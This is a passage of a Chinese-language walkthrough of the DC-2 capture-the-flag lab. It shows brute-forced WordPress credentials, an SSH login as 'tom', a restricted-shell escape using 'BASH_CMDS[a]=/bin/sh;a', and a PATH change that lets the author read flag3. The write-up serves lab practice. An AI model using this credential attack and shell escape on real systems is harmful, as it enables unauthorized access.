 ```
[+] Cached Requests: 5
[+] Data Sent: 318.158 KB
[+] Data Received: 682.345 KB
[+] Memory used: 216.595 MB
[+] Elapsed time: 00:00:54
root@kalilinux:/# 

 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

后台登陆 jerry 发现 flag2

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafeSHcfYQJgLjOdmlCZiaJzV4nNrap6UZzA0aarFPJcwtPFYRXTr6l8RA/640?wx_fmt=png)

**获取 Flag3**

结合扫描出来的服务，尝试 SSH 登录

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafzWh8HmO9OuczW6sBN90V18GyTQ4FerS5CnundiaYibrkkF9nQugJC2Tw/640?wx_fmt=png)

尝试为 tom 可以登录  
发现为受限 shell（限制了可执行的命令）  
绕过受限 shell  
BASH_CMDS[a]=/bin/sh;a  
然后 /bin/bash

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciaf3Gt0aNXiawliaWC5zFpLCVr9VZiakIEVeslrHlMHTyamL9PE8NlFxfTWg/640?wx_fmt=png)

使用并添加环境变量  
export PATH=$PATH:/bin/  
可以查看 flag3.txt 的内容：

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafsD14dPwaMXY1U8vu1ibwSxvWu5njK7KKQwSQYVTiaGJvBaibT5icCwlaRA/640?wx_fmt=png)

PATH 就是定义 / bin:/sbin:/usr/bin 等这些路径的变量，其中冒号为目录间的分割符。

```
tom@DC-2:~$ export -p
declare -x HOME="/home/tom"
declare -x LANG="en_US.UTF-8"
declare -x LOG
declare -x MAIL="/var/mail/tom"
declare -x OLDPWD
declare -x PATH="/home/tom/usr/bin:/bin/"
declare -x PWD="/home/tom"
declare -x SHELL="/bin/rbash"
declare -x SHLVL="2"
declare -x SSH_CLIENT="192.168.188.144 51118 7744"
declare -x SSH_CONNECTION="192.168.188.144 51118 192.168.188.157 7744"
declare -x SSH_TTY="/dev/pts/1"
declare -x TERM="xterm-256color"
declare -x USER="tom"
tom@DC-2:~$
```
